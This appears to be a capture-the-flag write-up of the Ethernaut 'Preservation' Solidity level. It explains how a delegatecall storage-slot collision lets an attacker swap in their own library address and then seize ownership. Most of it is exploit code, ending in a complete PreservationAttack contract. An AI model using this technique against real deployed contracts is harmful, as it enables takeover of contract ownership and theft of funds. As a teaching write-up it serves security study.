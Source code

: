 `Preservation` contract:
```solidity
address public timeZone1Library;
address public timeZone2Library;
address public owner; 
uint storedTime;
```
`LibraryContract` contract:
```solidity
uint storedTime; 
```
The `Preservation` contract calls an external library in a **Delegatecall**:
```solidity
function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
}
```
the `setTimeSignature` is given: ` bytes4(keccak256("setTime(uint256)"));`
So the `Preservation` contract delegatescall the `setTime` function in `Library contract`, the function code is:
```solidity
function setTime(uint _time) public {
   storedTime = _time;
}

```
So, after the `Preservation` contract `delegatecall` the LibraryContract, **the `setTime` function will be exectued in the context of the Preservation contract**. The `LibraryContract` updates the `storedTime` state which is declared first.(**slot0**) inside the contract. So the first state declared in **slot0** in `Preservation` contract will be updated, Hence, the **timeZone1Library**.
The `attack` function in our `PreservaionAttack` contract:
```solidity
function attack() external {
   preservation.setFirstTime(uint256(uint160(address(this))));
   preservation.setFirstTime(2);
}
```
> Note that we cast the address of the contract to uint because the setTime function requires a uint parameter

So, further delegatescall: `timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));` will refer to our `PreservationAttack` contract.<br />
To update the owner, we simply need to create the same storage of `Preservation` in our `PreservationAttack` via declaring states **with the same name, and in the same order**. And then create the `setTime` function **with the same signature** that updates the owner state:
```solidity
contract PreservationAttack {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner; 
    uint storedTime;

    Preservation public preservation;

    constructor(Preservation _address) {
        preservation = Preservation(_address);
    }

    function attack() external {
        preservation.setFirstTime(uint256(uint160(address(this))));
        preservation.setFirstTime(2);
    }

    function setTime(uint _time) public {
        owner = tx.origin;
    }
```